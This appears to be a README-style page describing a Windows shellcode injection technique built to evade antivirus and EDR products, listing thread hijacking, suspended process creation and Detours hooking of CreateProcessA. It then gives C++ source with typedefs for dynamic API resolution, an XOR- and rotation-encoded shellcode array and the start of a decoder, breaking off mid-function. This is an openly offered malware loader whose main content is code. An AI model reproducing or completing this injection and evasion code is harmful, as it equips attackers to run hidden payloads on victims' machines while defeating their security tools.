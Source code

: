 ![image](https://github.com/user-attachments/assets/09518358-3c37-4971-af45-76b80d20fda6)



---

### Key Anti-Detection Techniques

- **Thread Hijacking:** Instead of creating a new thread via `CreateRemoteThread` (which is often monitored), we hijack the main thread of the target process. This method is stealthier and less likely to trigger alarms from EDR/AV solutions.
- **Suspended Process Creation:** By creating the target process in a suspended state (`CREATE_SUSPENDED`), we can safely inject the shellcode and modify the thread context before execution starts.
- **Detours for Hooking:** Detours allows us to hook the `CreateProcessA` function, intercept process creation, and inject shellcode in a stealthy way, while still preserving the original behavior of `CreateProcessA`.

---

### More Advanced example

```cpp
#include <windows.h>
#include <detours.h>
#include <stdio.h>

// Function typedefs for dynamic API resolution
typedef LPVOID(WINAPI* VirtualAllocEx_t)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
typedef BOOL(WINAPI* WriteProcessMemory_t)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
typedef BOOL(WINAPI* SetThreadContext_t)(HANDLE, const CONTEXT*);
typedef BOOL(WINAPI* GetThreadContext_t)(HANDLE, LPCONTEXT);
typedef DWORD(WINAPI* ResumeThread_t)(HANDLE);

// Encoded shellcode (replace with your actual encoded shellcode)
unsigned char encoded_shellcode[] =
"\xb2\x17\x49\x72\xd2\x12\x53\x55\x55\x55\x5f\xdf\x5f\xd7\xc7\xdf"
"\xe7\x17\xdc\xc3\x7e\x17\x09\xc7\x56\x17\x09\xc7\x95\x17\x09\xc7"
"\x54\x17\x09\xc6\xd7\x17\x2d\xe8\x07\x07\x3f\xdc\x1b\x17\xdc\x53"
"\x30\xb4\x5e\xb6\x45\x34\x54\x5f\x5b\x1b\x3d\x5f\x5d\x5b\x42\x3a"
"\xc7\x5f\xdf\x17\x09\xc7\x54\x09\x47\xb4\x17\x5d\xd3\x09\x51\x11"
"\x55\x55\x55\x17\x79\x53\xf6\x6e\x17\x5d\xd3\xd7\x09\x17\x95\x77"
"\x09\x57\x54\x1f\x5d\xd3\x4a\xe7\x17\xaa\x1b\x5f\x09\xf4\x11\x17"
"\x5d\xe3\x3f\xdc\x1b\x17\xdc\x53\x30\x5f\x5b\x1b\x3d\x5f\x5d\x5b"
"\x94\x52\xfe\xda\x37\x4d\x37\x74\x15\x7f\x9c\xdb\xfe\x93\x97\x77"
"\x09\x57\x74\x1f\x5d\xd3\x66\x5f\x09\x35\x17\x77\x09\x57\xb5\x1f"
"\x5d\xd3\x5f\x09\x75\x11\x17\x5d\xd3\x5f\x97\x5f\x97\xa7\x9f\x87"
"\x5f\x97\x5f\x9f\x5f\x87\x17\x49\x32\x54\x5f\xc7\xaa\x52\x97\x5f"
"\x9f\x87\x17\x09\xc5\x1a\xef\xaa\xaa\xaa\xbf\x17\x80\x5d\x55\x55"
"\x55\x55\x55\x55\x55\x17\x39\x39\x5d\x5d\x55\x55\x5f\x80\xdc\x09"
"\x2e\x69\xaa\xfb\x88\xd2\xf8\x40\xe7\x5f\x80\x60\xf9\xb8\xb9\xaa"
"\xfb\x17\x49\x73\x14\xb4\x65\xb6\x05\x51\x8a\x52\xfe\x7d\x88\x6f"
"\xcd\xc6\x2e\x06\x55\x9f\x5f\x19\x83\xaa\xfb\x4e\x5e\x36\x4e\x24"
"\x7e\x96\x7e\x55";

size_t payload_size = sizeof(encoded_shellcode) - 1;  // Size of the encoded shellcode without null-terminator
unsigned char xor_key = 0xAA;  // XOR key for encoding/decoding

// Rotate right by 3 for decoding (reverse of encoding rotation)
unsigned char rotr8(unsigned char value, unsigned int shift) {
    return (value >> shift) | (value << (8 - shift));
}

// Decoding function for the encoded shellcode
void decode_shellcode(unsigned char* shellcode, size_t length, unsigned char key) {
```